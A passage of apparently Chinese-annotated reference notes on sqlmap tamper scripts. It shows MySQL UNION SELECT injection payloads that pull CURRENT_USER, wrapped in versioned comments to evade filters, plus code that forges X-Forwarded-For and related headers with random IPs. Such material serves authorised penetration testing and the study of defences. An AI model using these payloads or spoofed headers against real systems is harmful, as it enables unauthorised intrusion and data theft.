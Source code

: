 ### versionedkeywords.py

> Encloses each non-function keyword with (MySQL) versioned comment

Requirement:
* MySQL

Tested against:
* MySQL 4.0.18, 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'
```

### versionedmorekeywords.py

> Encloses each keyword with (MySQL) versioned comment

Requirement:
* MySQL >= 5.1.13

Tested against:
* MySQL 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#'
```

### xforwardedfor.py

> Append a fake HTTP header 'X-Forwarded-For' (and alike)

附加多个虚假的 HTTP 头
```py
headers["X-Forwarded-For"] = randomIP()
headers["X-Client-Ip"] = randomIP()
headers["X-Real-Ip"] = randomIP()
headers["CF-Connecting-IP"] = randomIP()
headers["True-Client-IP"] = randomIP()
headers["Via"] = "1.1 Chrome-Compression-Proxy"
headers["CF-IPCountry"] = random.sample(('GB', 'US', 'FR', 'AU', 'CA', 'NZ', 'BE', 'DK', 'FI', 'IE', 'AT', 'IT', 'LU', 'NL', 'NO', 'PT', 'SE', 'ES', 'CH'), 1)[0]
```

---

## ACCESS

**相关文章**
- [sqlmap注入access数据库](https://www.jianshu.com/p/258d7014f84c)
- [使用SQLMap进行Access注入](https://4hou.win/wordpress/?p=17495)

